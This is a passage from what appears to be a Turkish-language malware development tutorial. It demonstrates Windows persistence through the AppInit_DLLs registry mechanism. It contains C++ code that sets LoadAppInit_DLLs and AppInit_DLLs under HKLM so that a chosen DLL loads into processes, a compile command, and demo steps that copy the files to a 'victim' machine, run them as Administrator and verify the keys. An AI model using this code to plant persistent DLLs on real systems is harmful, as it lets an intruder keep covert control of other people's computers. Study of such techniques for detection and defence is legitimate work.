 ```cpp
    0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }

  res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\
  Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
    0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
    0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Gördüğünüz gibi, `LoadAppInit_DLLs` kayıt defteri anahtarını `1` olarak ayarlamak da önemlidir.   

Şimdi bunu derleyelim:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/55/2022-05-16_01-22.png){width="80%"}    

### demo

Hadi her şeyi çalışırken görelim! Tüm dosyaları kurbanın makinesine (benim durumumda `Windows 10 x64`) aktarın.   

Ardından, Yönetici olarak çalıştırın:    

```powershell
.\pers.exe
```

ve:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
 /s
reg query \
"HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\
Windows" /s
```
